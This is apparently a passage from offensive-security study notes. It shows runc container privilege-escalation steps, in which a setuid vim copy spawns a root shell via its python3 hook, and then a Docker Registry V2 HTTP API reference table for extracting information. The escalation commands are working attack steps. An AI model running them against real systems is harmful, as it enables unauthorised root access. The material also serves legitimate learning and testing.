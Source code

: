 We need to:

a) Create the `rootfs` directory to match the `config.json` configuration.
b) Modify the `readonly` field to `false` in `config.json`.

Then, run the container with the command:
```bash
runc run username
```

After that, copy `vim` to the `/tmp` directory, change its permissions, and use it to execute a shell:
```bash
cp /usr/bin/vim /tmp/vim
chmod u+s /tmp/vim
ls -la /tmp | grep vim
```

Go for the kill:
```bash
/tmp/vim -c ':py3 import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```

# Extracting Information

## Docker Registry

- A Docker Registry is used to store and share Docker images between users and systems.
- Some organizations do not want their applications to be publicly available, so they create a private registry, which functions similarly to Docker Hub but is hosted on the organization's premises.
- To interact with a registry, we can use the Docker client or make requests directly to the HTTP API.


### Interacting with the Registry Using the HTTP API

| Method | Path | Entity | Description |
|--------|------|--------|-------------|
| GET    | /v2/ | Base   | Verifies if the endpoint implements the Docker Registry V2 API. |
| GET    | /v2/<name>/tags/list | Tags | Retrieves the tags under the repository identified by the name. |
| GET    | /v2/<name>/manifests/<reference> | Manifest | Retrieves the manifest identified by name and reference, where the reference can be a tag or digest. A HEAD request can also be issued to this endpoint to get information about resources without receiving all data. |
| PUT    | /v2/<name>/manifests/<reference> | Manifest | Inserts the manifest identified by name and reference, where the reference can be a tag or digest. |
| DELETE | /v2/<name>/manifests/<reference> | Manifest | Deletes the manifest or tag identified by name and reference, where the reference can be a tag or digest. Note that a manifest can only be deleted by digest. |
| GET    | /v2/<name>/blobs/<digest> | Blob | Retrieves the blob from the registry identified by the digest. A HEAD request can also be issued to this endpoint to get information about resources without receiving all data. |
| DELETE | /v2/<name>/blobs/<digest> | Blob | Deletes the blob identified by name and digest. |
| POST   | /v2/<name>/blobs/uploads/ | Blob Upload | Initiates the upload of a blob with resume option enabled. If successful, an upload location will be provided to complete the upload. Optionally, if the digest parameter is present, the request body will be used to complete the upload in a single request. |
| GET    | /v2/<name>/blobs/uploads/<uuid> | Blob Upload | Retrieves the status of the upload identified by UUID. The main purpose of this command is to determine the status of a resumable upload. |
| PATCH  | /v2/<name>/blobs/uploads/<uuid> | Blob Upload | Uploads a chunk of data for the specified upload. |
| PUT    | /v2/<name>/blobs/uploads/<uuid> | Blob Upload | Completes the specified upload by UUID, optionally attaching the request body as the last chunk of data. |
| DELETE | /v2/<name>/blobs/uploads/<uuid> | Blob Upload | Cancels pending upload processes, freeing associated resources. If this command is not executed, unfinished uploads will eventually expire. |
| GET    | /v2/_catalog | Catalog | Retrieves an ordered JSON list of repositories available in the registry. |
